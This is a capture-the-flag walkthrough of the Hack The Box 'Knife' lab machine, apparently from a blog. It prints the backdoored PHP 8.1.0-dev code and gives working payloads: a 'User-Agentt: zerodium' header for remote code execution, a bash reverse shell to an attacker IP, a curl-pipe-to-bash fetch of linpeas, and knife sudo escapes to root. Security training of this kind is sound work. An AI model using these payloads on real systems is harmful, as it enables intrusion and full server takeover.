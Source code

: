 ```yaml
---
title: 'Knife Machine HTB'
excerpt: 'Knife is an easy difficulty Linux machine that features an application which is running on a backdoored
version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration
is then exploited to gain a root shell.'
coverImage: '/assets/blog/knife/knife.jpeg'
date: '2021-08-16T05:35:07.322Z'
author:
  name: W0lf15
  picture: '/assets/blog/authors/w0lf15.png'
ogImage:
  url: '/assets/blog/knife/knife.jpeg'
---
```


## Skills Required

- Enumeration
- Basic Knowledge of Linux
- OWASP Top 10

## Skills Learned

- Web Exploitation
- Knife Sudo Exploitation

## Enumeration

```shell
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.242 | grep ^[0-9] | cut -d '/' -f 1 | tr
'\n' ',' | sed s/,$//)
nmap -p$ports -sV -sC 10.10.10.242
```

Nmap scan reveals that the target server has two ports open: 22 and 80.

Apache is hosting an Emergent Medical Idea application. There's nothing interesting in this application.

### FFUF

Let's enumerate files and folders using `ffuf` utility.

Nothing interesting from the results. We send a cURL request to `index.php` page and observe the
response headers.

X-Powered-By header reveals that the application is using PHP/8.1.0-dev version. Searching
vulnerabilities related to this version reveals that it has a known RCE <a href="https://www.exploit-db.com/exploits/49933">exploit</a>.

```php
{
 zval zoh;
 php_output_handler *h;
 zval *enc;
 if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY ||
zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
 (enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]),
"HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
 convert_to_string(enc);
 if (strstr(Z_STRVAL_P(enc), "zerodium")) {
 zend_try {
 zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid
2017");
 } zend_end_try();
 }
 }
 switch (ZLIBG(output_compression)) {
 case 0:
```

The code checks for the first occurance of zerodium string in User-Agentt request header. If found, it
then executes the code after that string.

```php
zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
```

```shell
curl http://10.10.10.242/index.php -H 'User-Agentt: zerodiumsystem("curl
10.10.14.177");'
```

After successfully receive the request we fire up a listener on port 1234 and send below request to obtain
the reverse shell.

```shell
curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i
&>/dev/tcp/10.10.14.177/1234 0>&1 '\");"
```

Let's setup a listener on port 80 and verify this by sending a cURL request to our server.

This is indeed successful and a shell as james is received.

## Privilege Escalation

Having foothold on the server, it is possible to enumerate the different ways to escalate privileges. We
enumerate the server using scripts such as <a href="https://github.com/rebootuser/LinEnum">LinEnum.sh</a> or <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">linPEAS.sh.</a> We download the script and copy it to the apache web root path. Next, we use curl to transfer and execute the script.

```shell
curl 10.10.14.177/linpeas.sh|bash
```

Output shows that james is allowed to run knife as root. Knife tool provides an interface to manage Chef
automation server nodes, cookbooks, recipes and etc. Knife usage can be read from manpage. Some
examples shows that, it is possible to edit knife data bags using a text editor. We can try that.

```shell
sudo knife data bag create 1 2 -e vi
```

This opens up the vim editor. We type below in the editor to get a shell as root.

```shell
:!/bin/sh
```

This can also be achieved using knife exec sub-command. We can upgrade the shell to a fully interactive.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg
reset
xterm
```

Now it is possible to execute keyboard shortcuts in the shell session. Knife also provides an option exec to
execute ruby scripts. We issue the following command.

```shell
sudo knife exec
```

This opens up an interactive shell to execute the code. We type the code below and press CTRL D to run it.

```shell
exec "/bin/bash"
```

This is successful and a shell as root is obtained. Alternatively the following ways can also be used to obtain
a root shell.

```bash
sudo knife exec --exec "exec '/bin/sh -i'"
```

```bash
echo -n 'exec "/bin/bash -i"' > config.rb
sudo knife user list -c config.rb
```

```

```
